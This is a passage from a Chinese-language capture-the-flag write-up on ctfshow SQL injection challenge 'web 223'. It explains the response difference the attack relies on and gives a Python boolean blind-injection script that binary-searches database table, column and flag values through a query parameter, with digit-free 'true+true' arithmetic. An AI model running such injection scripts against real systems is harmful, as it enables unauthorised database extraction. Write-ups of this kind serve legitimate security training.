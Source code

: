 ```python
    if head!=1:
        result+=chr(head)
        print(result)
    else:
        break
```

## web 223

点击去重按钮，可以在f12调试工具网络界面看到请求参数

![223](https://the0n3.top/medias/show-sql/223.png)

给u随便传值，如果u是数字返回`{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25","count":1,"data":[]}`,如果u是username，会返回`{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"},{"id":"2","username":"user1","pass":"111"},{"id":"3","username":"user2","pass":"222"},{"id":"4","username":"userAUTO","pass":"passwordAUTO"}]}`

通过返回结果不同，可以使用布尔盲注

```python
"""
Author:Y4tacker
"""
import requests


def generateNum(num):
    res = 'true'
    if num == 1:
        return res
    else:
        for i in range(num - 1):
            res += "+true"
        return res


url = "http://ff765902-0dec-4688-8cd2-1a4cc429d30a.chall.ctf.show/api/"
i = 0
res = ""
while 1:
    head = 32
    tail = 127
    i = i + 1

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库-ctfshow_flagas
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段-flagasabc
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
        # 查flag
        payload = "select flagasabc from ctfshow_flagas"
        params = {
            "u": f"if(ascii(substr(({payload}),{generateNum(i)},{generateNum(1)}))>{generateNum(mid)},username,'a')"
        }
        r = requests.get(url, params=params)
        # print(r.json()['data'])
        if "userAUTO" in r.text:
            head = mid + 1
        else:
```
